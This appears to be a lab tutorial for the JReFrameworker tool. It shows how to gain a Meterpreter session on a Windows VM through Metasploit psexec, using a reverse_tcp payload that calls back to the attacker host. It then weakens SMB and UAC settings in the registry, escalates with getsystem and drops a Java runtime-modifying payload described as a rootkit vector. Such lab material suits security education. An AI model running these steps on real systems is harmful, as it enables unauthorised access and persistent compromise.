




This tutorial demonstrates how to modify a victim machine's runtime using a JReFrameworker module.

If you haven't already, you should complete the first two tutorials ([Hello World](./hello-world) and [Hidden File](./hidden-file)) to become familiar with the basics of JReFrameworker.

The video below shows a quick demo of what this tutorial will accomplish (deploying the Hello World payload on a victim machine).

<iframe width="560" height="315" src="//www.youtube.com/embed/ZVli0XJJR5s" frameborder="0" allowfullscreen></iframe>

## Lab Setup

You will also need to setup a small laboratory test environment that includes the following.

1. A victim machine (this tutorial uses a fresh install of Windows 7 SP1 x64 English edition in a virtual machine, but any OS capable of running Java will work).
2. An attacker machine with [Metasploit](https://www.metasploit.com/) installed (this tutorial uses a [Kali Linux virtual machine](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) version 2016.2).
3. An installation of JReFrameworker (this tutorial uses the host machine, but any OS that can run [Eclipse](https://eclipse.org/) with JReFrameworker installed will work).

For this tutorial we will be using [VMWare](https://www.vmware.com) virtual machines, but [Virtualbox](https://www.virtualbox.org) is a good free alternative to VMWare.

Our victim machine was created with an Administrator account named `Victim` and password `badpass`. Log into the machine. Since Java is not installed by default, we will need to install the runtime environment. You can download the standard edition of Java directly from [Oracle](http://www.oracle.com/technetwork/java/javase/downloads/index.html) or by using the [ninite.com](https://ninite.com/) installer. 

After installing Java, we set out virtual machines to `Host only` mode with our victim at `192.168.115.129` and our attacker at `192.168.115.128`. Double check that you know the IP addresses of each machine and that each machine can ping the other. If Kali cannot ping the Windows virtual machine, you may need to disable or specifically allow connections through the Windows firewall.

  

    <a href="../images/payload-deployment/windows-network-zoom.png" data-lightbox="windows-network" data-title="Windows Network">
      
      <figcaption>Windows Victim Network (click to zoom)</figcaption>
    </a>
  

  

    <a href="../images/payload-deployment/kali-network-zoom.png" data-lightbox="kali-network" data-title="Kali Network">
      
      <figcaption>Kali Attacker Network (click to zoom)</figcaption>
    </a>
  

The next section continues the lab setup towards getting an active [Metasploit Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) session on the victim machine. If your lab setup is different and you have a working exploit already, skip to the [Post Exploitation](#PostExploitation) section below.

## Exploitation

Since we already know the credentials for the victim machine, we will be using Metasploit's [psexec (pass the hash) module](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/). In Kali, open the Metasploit framework console by typing `msfconsole` in the terminal. 

  

    <a href="../images/payload-deployment/msfconsole-zoom.png" data-lightbox="msfconsole" data-title="Open msfconsole">
      
      <figcaption>Open msfconsole (click to zoom)</figcaption>
    </a>
  

Within the Metasploit framework console, load the psexec exploit module by typing `use exploit/windows/smb/psexec`.

  

    <a href="../images/payload-deployment/load-exploit-zoom.png" data-lightbox="load-exploit" data-title="Load Exploit">
      
      <figcaption>Load exploit (click to zoom)</figcaption>
    </a>
  

Type `show options` to view the exploit configuration parameters.

  

    <a href="../images/payload-deployment/exploit-options-zoom.png" data-lightbox="exploit-options" data-title="Exploit Options">
      
      <figcaption>Exploit Options (click to zoom)</figcaption>
    </a>
  

Set the remote host to be the IP address of the victim machine by typing `set RHOST 192.168.115.129`.

Set the username to authenticate as by typing `set SMBUser Victim`. Note that you may need to replace *Victim* with the Windows username you used to configure your virtual machine with during setup.

Set the password to authenticate with by typing `set SMBPass badpass`. Again you may need to replace *badpass* with the actual password you used during setup.

Finally let's configure a reverse TCP Meterpreter payload that will execute Meterpreter on the victim machine and connect back to our attacker machine with the active session. Configure the payload by typing `set PAYLOAD windows/meterpreter/reverse_tcp`.

Set the outbound Meterpreter connection address to be the local host (the IP address of the attacker machine) by typing `set LHOST 192.168.115.128`.

Set the outbound Meterpreter connection port to be port 443 (https) by typing `set LPORT 443`.

  

    <a href="../images/payload-deployment/exploit-parameters-zoom.png" data-lightbox="exploit-parameters" data-title="Set Exploit Parameters">
      
      <figcaption>Set Exploit Parameters (click to zoom)</figcaption>
    </a>
  

Finally run the exploit by typing `exploit`.

If the exploit failed with error code `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` you may need to edit a registry setting on the Window's victim. 

  

    <a href="../images/payload-deployment/exploit-failure-zoom.png" data-lightbox="exploit-failure" data-title="Exploit Failure">
      
      <figcaption>Exploit Failure (click to zoom)</figcaption>
    </a>
  

Open Window's *regedit* tool.

  

    
  

Navigate to the registry key, **"HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters"** on the target systems and setting the value of **"RequireSecuritySignature"** to **"0"**. Note that while some registry keys may be case sensitive, these keys do not appear to be case sensitive. This registry edit disables the group policy requirement that communications must be digitally signed. 

  

    <a href="../images/payload-deployment/reg1-zoom.png" data-lightbox="reg-1" data-title="Registry Edit: RequireSecuritySignature">
      
      <figcaption>Registry Edit: RequireSecuritySignature (click to zoom)</figcaption>
    </a>
  

You may also need to add a new registry key under **"HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"**. Setting  the key to be a DWORD (32-bit) named **"LocalAccountTokenFilterPolicy"** with a value of **"1"**. This edit allows local users to perform administrative actions.

  

    <a href="../images/payload-deployment/reg2-zoom.png" data-lightbox="reg-2" data-title="Registry Edit: LocalAccountTokenFilterPolicy">
      
      <figcaption>Registry Edit: LocalAccountTokenFilterPolicy (click to zoom)</figcaption>
    </a>
  

After setting the registry keys, rerun the exploit in Kali. If you are still not successful, try restarting the Windows machine and double checking your exploit configuration parameters by typing `set` to view the current values. If the exploit was successful you will see that one new session was created. 

  

    <a href="../images/payload-deployment/exploit-success-zoom.png" data-lightbox="exploit-success" data-title="Exploit Success">
      
      <figcaption>Exploit Success (click to zoom)</figcaption>
    </a>
  

If you are unfamiliar with Meterpreter some basic operations can be found [here](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/).

When you are done, type `background` to exit and background the Meterpreter session. Then type `back` to exit the exploit configuration menu.

## Post Exploitation

Now that we have an active Meterpreter session on our victim machine we can use JReFrameworker to manipulate the runtime or install a managed code rootkit. First determine the active Meterpreter sessions that you have by typing `sessions -l` to list the current sessions.

  

    <a href="../images/payload-deployment/list-sessions-zoom.png" data-lightbox="list-sessions" data-title="List Sessions">
      
      <figcaption>List Sessions (click to zoom)</figcaption>
    </a>
  

Since most typical Java runtime installations are installed in a directory that requires root or Administrator privileges you may need to escalate your privileges depending on your current access level.  To begin interacting with the session of the victim machine, type `sessions -i 1` (replacing 1 with your desired session). Type `getsystem` to attempt standard privilege escalation techniques.

  

    <a href="../images/payload-deployment/privilege-escalation-zoom.png" data-lightbox="privilege-escalation" data-title="Privilege Escalation">
      
      <figcaption>Privilege Escalation (click to zoom)</figcaption>
    </a>
  

Once you have system level privileges (assuming you need them), type `background` to exit and background the Meterpreter session.

Next download a copy of the current [jreframeworker.rb](https://github.com/JReFrameworker/JReFrameworker/blob/master/metasploit/jreframeworker.rb) Metasploit module. Then run `mkdir -p ~/.msf4/modules/post/manage/java` to create a directory path for the custom module. Add the *jreframeworker.rb* module to the newly created directory. Note that the module must end with the Ruby *.rb* extension. Additional information on loading custom Metasploit modules can be found on the [Metasploit Wiki](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules).

At the root Metasploit console type `reload_all` to detect the newly added module.

  

    <a href="../images/payload-deployment/adding-module-zoom.png" data-lightbox="adding-module" data-title="Adding JReFrameworker Module">
      
      <figcaption>Adding JReFrameworker Module (click to zoom)</figcaption>
    </a>
  

For this tutorial we will be using the Hello World JReFrameworker module discussed in [the first tutorial](/hello-world/). In the host machine, open the *HelloWorld* Eclipse project and do a clean build to ensure you have the latest compiled code (navigate to `Project` &gt; `Clean...`). Next navigate to `File` &gt; `Export` &gt; `Other...` &gt; `JReFrameworker Payload Droper`. 

  

    
    <figcaption>Exporting Payload Droper (step 1)</figcaption>
  

In the export dialog select the *HelloWorld* project and press `Next`.

  

    
    <figcaption>Exporting Payload Droper (step 2)</figcaption>
  

Select the output path to save the payload dropper and press the `Finish` button.

  

    
    <figcaption>Exporting Payload Droper (step 3)</figcaption>
  

Copy the payload dropper into the Kali attacker machine.

At the root Metasploit console, load the JReFrameworker post module by typing `use post/manage/java/jreframeworker`. Note that the module path may be different if you decided to change the directory path in the previous step.

Type `show options` to view the basic JReFrameworker module options. Type `show advanced options` to show additional module options.

Type `set PAYLOAD_DROPPER /root/Desktop/hello-world-dropper.jar` to set the JReFrameworker payload to the *hello-world-dropper.jar* module we exported from JReFrameworker earlier.

Type `set SESSION 1` to set the post module to run on the Meterpreter session 1. Remember that your session number may be different.

  

    <a href="../images/payload-deployment/jreframeworker-options-zoom.png" data-lightbox="configuring-module" data-title="Configuring JReFrameworker Post Module">
      
      <figcaption>Configuring JReFrameworker Post Module (click to zoom)</figcaption>
    </a>
  

Now before we run the post module, it might be a good idea to take a snapshot of our victim machine in case you want to restore it later. Let's also take this opportunity to run a simple Hello World program on the victim machine and confirm that the Java runtime is working properly before it is modified.

  

    <a href="../images/payload-deployment/before-modification-zoom.png" data-lightbox="before-modification" data-title="Before JReFrameworker Modification">
      
      <figcaption>Before JReFrameworker Modification (click to zoom)</figcaption>
    </a>
  

If everything is working as expected, type `run` to execute the post module.

  

    <a href="../images/payload-deployment/post-exploitation-zoom.png" data-lightbox="post-exploitation" data-title="Post Exploitation">
      
      <figcaption>Post Exploitation (click to zoom)</figcaption>
    </a>
  

Finally inspect the behavior of the victim machine when the same Hello World program is exectuted again (now in the modified runtime). You should see that the message is printed backwards!

  

    <a href="../images/payload-deployment/after-modification-zoom.png" data-lightbox="after-modification" data-title="After JReFrameworker Modification">
      
      <figcaption>After JReFrameworker Modification (click to zoom)</figcaption>
    </a>
  

Now it's up to you to experiment with other payloads. Just remember that the payload dropper is itself written in Java and executes on the victims runtime. If you have modified the runtime already future modifications may become unpredictable, so you might consider restoring the snapshot of the victim virtual machine before going any further. Good luck!